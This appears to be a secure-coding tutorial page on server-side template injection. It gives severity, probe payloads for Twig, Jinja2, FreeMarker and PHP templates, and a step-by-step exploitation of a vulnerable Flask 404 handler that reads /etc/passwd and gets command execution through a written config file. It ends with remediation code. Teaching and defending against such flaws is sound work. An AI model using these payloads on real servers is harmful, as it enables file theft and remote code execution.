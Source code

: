 # [⬅️](./README.md) SSTI - Server Side Template Injection

## Severity:
High/Critical
## Description:
Execution of arbitrary code on the server by injecting a template directive as user input.
>Templates are used to present dynamic data via webpages and emails, allowing server side execution in a sandbox.
```php
$output = $twig->render([[UNTRUSTED_DATA]],  array("first_name" => $user.first_name) );
```
In the meta-code `[[UNTRUSTED_DATA]]` could be things like:
```php
{{7*7}} 👉 49
{{self}} 👉 Object__TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
{{ ''.__class__.__mro__[2].__subclasses__() }}
{php}echo `id`;{/php}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
{{system('whoami')}
```
## Vulnerable code:
## Steps to reproduce the vulnerability:
First you have to determine the type of application that is running and the programming language it was written in. Here we can use Burp Suite:
![ssti0](./img/ssti0.png)
First we need to do some investigation on how the syntax works, so we dive into the [docs](https://jinja.palletsprojects.com/en/2.11.x/templates/)!
```
    {% ... %} for Statements
    {{ ... }} for Expressions to print to the template output
    {# ... #} for Comments not included in the template output
    #  ... ## for Line Statements
```
[Here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) you can find a list of templates to be used on `SSTI`
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```
![ssti1](./img/ssti1.png)
On position 40 whilst iterating over the different loaded classes we find the <type 'file'> class. The class itself has a read() method that we can use to read the "/etc/passwd" file from the filesystem.
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
![ssti2](./img/ssti2.png)
This class can also be used to gain remote code execution, which we can turn into a (reverse) shell access
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output%5Cn%5CnRUNCMD = check_output%5Cn') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config allowing to `RUNCMD`
{{ config['RUNCMD']('netstat -an | grep LISTEN',shell=True) }} # voila! Have fun SSRF-ing
```
![ssti3](./img/ssti3.png)
### Vulnerability spotted:
```python
@app.errorhandler(404)
def page_not_found(e):
    template = """
      <center>
        <p> {0} </p>
      </center>
    """.format(request.url)
    return render_template_string(template), 404
```
## Remediation description:
* Do not allow untrusted data to be part of your template.
* Only use static template files.
* If untrusted data is included, do input validation (white-list)
  * Use a hardened sandbox to avoid a major impact of a RCE
## Remediation code:
Sanitize the input before passing it into the templates by removing unwanted and risky characters before parsing the data. This minimizes the vulnerabilities for any malicious probing of your templates.
```python
def whitelist(url):
	whitelist = ["http://127.0.0.1:5000/some-404-info"]
	for b in whitelist:
		if url==b:
			return True
	return False

@app.errorhandler(404)
def page_not_found(e):
  template = """What are you doing???"""
  if whitelist(request.url):
    template = """
      <center>
        <h1>Nothing found, mon!</h1>
        <p> {0} </p>
      </center>
    """.format(request.url)
  return render_template_string(template), 404
```
![ssti4](./img/ssti4.png)